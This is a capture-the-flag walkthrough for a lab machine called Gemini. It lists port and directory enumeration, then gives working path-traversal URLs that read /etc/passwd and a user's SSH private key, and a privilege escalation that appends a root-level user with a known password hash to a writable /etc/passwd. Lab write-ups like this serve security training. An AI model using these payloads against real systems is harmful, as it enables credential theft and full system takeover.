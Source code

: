 <pre>
Edit host file:
$ vi /etc/hosts
    192.168.1.132        geminicorp.com

Enum:
    Open ports:
        21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 a3:38:0e:b6:a1:b8:49:b1:31:a0:43:3e:61:c3:26:37 (RSA)
|   256 fc:40:6c:0b:7b:f0:03:6e:2e:ef:2d:60:b5:96:01:b6 (ECDSA)
|_  256 90:ed:89:27:9d:65:ea:80:54:79:65:af:2c:d7:80:43 (ED25519)
80/tcp  open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Gemini Corp
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
MAC Address: 08:00:27:93:9F:70 (Oracle VirtualBox virtual NIC)
Service Info: Host: GEMINI; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -20m00s, deviation: 34m38s, median: 0s
|_nbstat: NetBIOS name: GEMINI, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: gemini
|   NetBIOS computer name: GEMINI\x00
|   Domain name: \x00
|   FQDN: gemini
|_  System time: 2020-11-17T11:12:03+01:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-11-17T10:12:03
|_  start_date: N/A

Port 80 enum: gobuster
    /images (Status: 301)
/assets (Status: 301)
/Portal (Status: 301)
    /index.php (Status: 200)
/contact-us.html (Status: 200)
/about-us.html (Status: 200) 
server-status (Status: 403)


/about-us.html (Status: 200) -> Vuln page
From LFI vuln to code execution
http://geminicorp.com/Portal/index.php?view=about-us.html
http://geminicorp.com/Portal/index.php?view=about-us.html/../../../../../../etc/passwd

Get ssh rsa key for login to ssh:
http://geminicorp.com/Portal/index.php?view=about-us.html/../../../../../../home/william/.ssh/id_rsa

Copy in attack box in id_rsa:
    $ chmod 400 id_rsa
    $ ssh -i id_rsa william@geminicorp.com
    *And got ssh connection and got user flag!

Priv esc enum:
/etc/passwd -> weak and can modify by others

    Lets make new user:
        $ openssl passwd -1 -salt arnav pass123 
            Result: $1$arnav$o8F/YObXhnuM67NCy.3fk1

    arnav:$1$arnav$o8F/YObXhnuM67NCy.3fk1:0:0:/root/root:/bin/bash
        $ nano /etc/passwd
        Add arnav:$1$arnav$o8F/YObXhnuM67NCy.3fk1:0:0:/root/root:/bin/bash at the end of file
        $ su arnav
        $ pass123

        And got root! :D




User Flag: srLbBhLRK7nBdZAesnxyeWaMV
Root Flag: vD1JA8mze74XzkmzOA21R4sjZ
</pre>
